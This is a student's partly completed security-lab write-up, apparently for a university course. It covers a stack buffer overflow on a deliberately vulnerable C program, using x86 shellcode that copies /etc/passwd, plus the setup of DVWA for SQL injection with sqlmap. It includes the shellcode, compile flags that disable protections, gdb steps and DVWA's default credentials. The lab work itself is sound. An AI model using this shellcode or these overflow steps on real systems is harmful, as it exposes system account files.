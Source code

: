 # Lab #1,22110009, Le Cong Bao, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  #### step 1: Create a vulnerable c program
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano vulnerable.c 
  ```
  ![image](https://github.com/user-attachments/assets/227b7284-5d61-466c-a766-f56c8ba2579b)

  #### step 2: Compile the vulnerable c program
  ```bash
     gcc -o vulnerable vulnerable.c -fno-stack-protector -z execstack
  ```
  
  - -fno-stack-protector: Disables stack protection, making the program vulnerable to buffer overflow attacks.
  - -z execstack: Allows execution of code on the stack, enabling exploitation through injected shellcode.
  #### step 3: Build an Assemply payload
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano shellcode.asm
  ```
  ![image](https://github.com/user-attachments/assets/4f8b0e7d-a38a-4098-bab7-025926764e0b)

  #### step 4: Compile the Asssemply code
  ```bash
     nasm -f elf32 -o shellcode.o shellcode.asm
     ld -m elf_i386 -o shellcode shellcode.o
  ```
  #### step 5: Find the address of the shellcode
  ```bash
     gdb ./vulnerable
  ```
  - in `gdb` set a breakpoint at `main ` run the program with a dummy argument to obtain the address of your shellcode.
  ```bash
     break main
     run $(python -c "print('A'*72)")
     p &buffer
  ```
    
**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
1. Pull DVMA Docker image
   ```bash
      docker pull vulnerables/web-dvwa
      docker run -d -p 80:80 vulnerables/web-dvwa
   ```
   ![image](https://github.com/user-attachments/assets/c89ed07c-5616-4614-8b55-8f4a27d30e8a)
2. Access DVWA with a web browser and go to: http://localhost Log in with the default user
   ![image](https://github.com/user-attachments/assets/c4c3bba3-24e9-4a2b-a9c3-660a20aeed61)
   User: admin
   Password: password
   


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
